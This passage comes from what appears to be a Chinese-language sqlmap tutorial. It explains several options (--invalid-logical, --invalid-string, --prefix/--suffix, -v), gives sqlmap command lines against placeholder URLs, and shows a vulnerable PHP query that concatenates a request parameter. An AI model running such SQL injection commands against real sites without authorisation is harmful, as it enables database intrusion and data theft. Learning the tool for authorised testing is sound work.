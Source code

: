 ```
sqlmap -u "http://xxx.com/xxx.php?id=1" --invalid-bignum
```



## 0x26 --invalid-logical

在sqlmap需要使原始参数值无效（例如id=13）时，它使用经典的否定（例如id=-13）。有了这个开关就可以强制使用布尔操作来实现相同的目标（例如id=13 and 18=19）。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --invalid-logical
```



## 0x27 --invalid-string

在sqlmap需要使原始参数值无效（例如id=13）时，它使用经典的否定（例如id=-13）。有了这个开关就可以强制使用随机字符串来实现相同的目标（例如id=akewmc）。因为id要接收一个数值，但字符串会被识别为非数值，所以是False。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --invalid-string
```



## 0x28 --prefix、--suffix
在某些情况下，只有当用户提供要附加到注入负载的特定后缀时，易受攻击的参数才可被利用。当用户已经知道查询语法并希望通过直接提供注入有效负载前缀和后缀来检测和利用SQL注入时，这些选项就派上用场了。

- --prefix 设置SQL注入Payload前缀
- --suffix 设置SQL注入Payload后缀

假设SQL语句如下：

```php
$query = "select * from users where id=('.GET['id'].') limit 0,1";
```

用sqlmap设置前后缀后注入：

```
sqlmap -u "http://xxx?id=1" -p id --prefix "')" --suffix " and ('abc'='abc"
```

注入后的SQL语句如下：

```php
$query = "select * from users where id=('1')<PAYLOAD> and ('abc'='abc') limit 0,1";
```



## 0x29 -v

显示调试信息。

有7个级别：

- -v 0 只显示python错误以及严重的信息。

